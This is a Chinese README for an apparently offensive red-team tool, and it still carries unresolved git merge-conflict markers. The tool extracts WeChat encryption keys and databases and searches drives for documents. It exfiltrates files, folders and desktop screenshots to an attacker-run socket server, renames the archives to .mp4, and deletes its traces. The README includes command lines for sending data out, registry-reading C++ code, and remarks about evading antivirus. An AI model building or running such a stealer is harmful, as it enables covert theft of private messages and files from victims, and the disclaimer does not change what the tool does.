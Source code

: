 ### Server

<<<<<<< HEAD
```plain
Server.exe port # 默认8888端口
```

### Command

```plain
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```

### 更新说明

1、all参数排除了c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找

可自行修改需要上传的文件类型（747行），默认为：

```plain
	const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```

2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀

3、优化了查找文件匹配方式，支持模糊匹配或精确匹配

4、新增uploads参数遍历指定文件夹压缩上传功能

5、新增photo参数桌面截屏回传功能

### 功能展示：

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668769423893-416c9225-1319-4133-a468-3cb6cee900d4.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668770076653-85c5e09c-e9a8-436f-8ce5-8987cc079882.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668772513228-738d3cd4-5aef-49e5-9d31-6df8d9c6e8f9.png)

## 已知问题：

测试在1M带宽的服务器上传输大文件（G级）可能会损坏，感觉这跟双方网络波动有一定关系，后续会改成自动分卷压缩来上传，目前暂用的解决办法：

例如本地自带Rar进行切割，回传后

```plain
C:\Program Files\WinRAR\Rar.exe a -ep1 -m0 -v2mC:\Users\admin\Downloads\1.rar C:\Users\admin\Downloads\xxx.jar
```

注释：-v2m 即分卷的大小为2m 

2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件

> 后续还会更新~

如果发现缺陷请提交 issue，非常感谢！

#### 本人失业多年，已不参与大小HW活动的攻击方了，若溯源到id与本人无关

## 免责声明

 本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。
=======
## 开发中......
### v1.3

1、排除c盘符的查找指定类型文件，避免大量缓存文件，自定义参数在c:\\users目录下查找

2、运行成功后删除生成出来的文件夹以及压缩包，文件后缀随机修改成了mp4

3、(碰到vx用户自设的保存路径，需要加个指定路径去获取)

4、优化了查找文件匹配方式，支持模糊匹配或精确匹配

![](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668442052652-b9de6f05-6a00-4ae1-a32c-a5d9adbf7631.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe search d:\ .docx 
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe send 127.0.0.1 8888 vxpath
[+] FileUpload.exe upload path 127.0.0.1 8888
[+] FileUpload.exe all 127.0.0.1 8888
[+] FileUpload.exe user 127.0.0.1 8888

```

### v1.2(暂不开源)

实战中发现全盘查找微信数据库文件在cs中非常拉跨，查找等待时间较长，且盘符越多越慢

1、直接读取注册表的键值，wxid关键字匹配拼接路径

```
void getPath(char *dbpath)
{
	char cmd_command[256] = { 0 };
	char regname[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Shell Folders";
	HKEY hKey;
	DWORD dwType = REG_BINARY;
	REGSAM mode = KEY_READ;
	DWORD length = 256;
	int ret = RegOpenKey(HKEY_CURRENT_USER, regname, &hKey);

	ret = RegQueryValueEx(hKey, "Personal", 0, &dwType, (LPBYTE)dbpath, &length);
	strcat(dbpath, "\\WeChat Files");
	//cout << dbpath << endl;

	if (ret == 0) {
		RegCloseKey(hKey);
	}
	else {
		printf("failed to open regedit.%d\n", ret);
	}
}

```

```
void getFileNames(string path, vector<string>& files)
{
	intptr_t hFile = 0;
	//文件信息
	struct _finddata_t fileinfo;
	string p;
	string::size_type idx;

	if ((hFile = _findfirst(p.assign(path).append("\\*").c_str(), &fileinfo)) != -1)
	{
		do
		{
			//如果是目录,匹配文件夹
			if ((fileinfo.attrib & _A_SUBDIR))
			{
				if (strstr(fileinfo.name, "wxid") != NULL)
					files.push_back(p.assign(path).append("\\").append(fileinfo.name));
			}

		} while (_findnext(hFile, &fileinfo) == 0);
		_findclose(hFile);
	}
}

```
2、传输改成socket协议，支持大文件上传，效率很快，需要启动个Server socket
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665465880719-3ec78718-3e6e-4ac8-87a1-d2751bfdaabf.png)

3、参考https://github.com/Ormicron/Sharp-dumpkey 

远程拉取基址，考虑到免杀性改成了C++代码，
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665469015290-f07178fb-95a6-4d35-9161-bbf2d4a7da13.png)

```
[+] FileUpload.exe dumpkey
[+] FileUpload.exe send 127.0.0.1 8888
[+] FileUpload.exe upload path 127.0.0.1 8888

```
实现效果：
![](https://cdn.nlark.com/yuque/0/2022/png/262397/1665471090145-08f5b557-680f-4c8c-8fce-9574d581f81d.png)

### v1.1
服务端：python2 http_put.py 80 path 

（win10自带curl.exe，其他系统可以上传一个或者引用socket库）

1、新增全盘查找微信聊天记录文件并压缩上传到指定服务器

2、压缩本地文件并上传到指定服务器

3、指定盘查找指定文件后缀并输出
```
[+] eg: Filesearch default baidu.com
[+] eg: Filesearch upload C:\MSG0.db baidu.com
[+] eg: Filesearch search C:\ docx

```
## v1.0

```
System Drive are:C:\D:\
Command:FileSearch.exe Drive Keyword
Example:FileSearch.exe C:\ docx
```

![](https://cdn.nlark.com/yuque/0/2020/png/262397/1598583458455-d71cecb3-ef4e-49de-b33e-fe81c55c012b.png)
>>>>>>> b40b4e5e53610081ae1bbaad8409911e2c233079
